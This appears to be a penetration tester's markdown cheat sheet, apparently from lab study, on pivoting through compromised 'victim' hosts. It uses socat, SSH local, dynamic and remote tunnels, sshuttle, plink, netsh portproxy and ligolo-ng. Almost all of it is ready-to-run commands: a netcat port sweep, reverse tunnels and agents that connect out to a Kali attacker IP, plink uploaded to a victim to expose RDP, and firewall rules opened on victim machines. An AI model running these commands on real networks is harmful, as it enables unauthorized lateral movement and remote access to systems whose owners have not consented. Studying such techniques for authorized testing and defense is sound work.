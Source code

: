 # Linux Port Forwarding
- look for subnet/dmz
- ``` ip route ```  | ``` ip addr ```
## Socat
- ``` socat TCP-LISTEN:2222,fork TCP:{ip}:22 ```

# SSH tunneling
  
## Local port fw 
- use 2 jump pad and go to target
- useful search port without nmap: ``` for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done ```
- kali -> victim 1 -> victim 2(10.4.xxx) -> victim3(172.16.xxx)
1. initate ssh tunneling in victim 1 ``` ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215 ``` (No shell & )
2. check service if on victim 1``` ss -ntplu ```
 
## Dynamic port fw
- Enable proxychains in kali for more comfortability on ssh tun
1. ``` nano /etc/proxychains4.conf ``` with ``` socks5 {ip of ssh tun entrance} {port of ssh tun entrance} ```
2. run in victim ``` ssh -N -D 0.0.0.0:9999 database_admin@10.4.210.215 ``` 

## REMOTE local port fw
- prob cant go victim 3 with this method but can cure the problem of inbound firewall rule
- **Care** if connected 127.0.0.1/0.0.0.0 will become victim 1 && the the port will be used
1. host ssh server in kali: ``` sudo systemctl start ssh ``` (check: ``` sudo ss -ntplu ```)
2. run remote ssh fw in victim 1``` ssh -N -R 127.0.0.1:{port to be used in kali to connect this}:{victim2 ip}:5432 kali@{kali_ip} ```


## REMOTE dynamic port fw
- run this in victim 1 ``` ssh -N -R 9998 kali@192.168.118.4 ```
- edit proxychains conf
- need to use proxychains as above in kali to run commands
- **care** about

## sshuttle
- need root & py3
1. run simple port forwarding in victim 1 : ``` socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22 ```
2. ``` sshuttle -r database_admin@{victim 1 ip}:{victim 1} 10.4.50.0/24 172.16.50.0/24 {subnets}``` 
- works like vpn and setup 
- after success just hold there and keep running | sometimes may not receive much output

# Window Tool
## ssh.exe 
- Low probability have
- using cmd(not pwsh) to see ssh exist or not ``` where ssh ```
1. reverse REMOTE dynamic port ``` ssh -N -R 9998 kali@192.168.118.4 ``` (same as above)
- can use other ways too

## Plink (or Putty)
- Mid Prob
- Allow RDP connection for visual
- If blocked inbound from external and allow self fuck port then can use this way to start a REMOTE local port fw -> use rdp account u found to login thru this port

- Host apache / other python 80 web server to transfer
- Pull plink.exe (inside kali machine library @1.md) to victim
1. run in victim: ``` C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:{kali_port}:127.0.0.1:{to be binded port in victim} {kali ip} ```
2. kali: ``` xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833 ```

## Netsh 
- Requires ADMIN ROOT & CMD
- High Prob (since its network shell e.g. builtin firewal config tool is this)
  
### Simple forwarding
1. open 2222 on victim 1 to connect to victim 2 port 22``` netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.189.64 connectport=22 connectaddress=10.4.189.215 ``` (wont have response so need check with ``` netstat -anp TCP | find "2222" ``` OR ``` netsh interface portproxy show all ```)
  
### If filtered packet 
- Open firewall: ``` netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow ```

#### Clean up
- remove firewall rule ``` netsh advfirewall firewall delete rule name="port_forward_ssh_2222" ```
- remove port fwing ``` netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64 ```

#  ligolo-ng
- https://github.com/nicocha30/ligolo-ng/releases/tag/v0.6.2
- https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5 
## Proxy (Kali) Setup
1. ``` 
    # Adds a new tun interface to our machine.
    sudo ip tuntap add user kali mode tun ligolo

    # Enables the new interface.
    sudo ip link set ligolo up
    ```
2. ```
    # With the -selfcert flag the tool dynamically 
    # generates self-signed certificates.

    ./proxy -selfcert
    ```
3. (After agent connected)
   ```
    sudo ip route add 172.16.5.0/24 dev ligolo
    ```
## Agent (Victim)
1. ```
    # The IP will be the IP of our Kali VM/attacking machine.
    # The -ignore-cert ignores certificate validation. 
    # This means we won't have any issues with our self-signed certs.

    ./agent -connect 10.10.14.213:11601 -ignore-cert
    ```
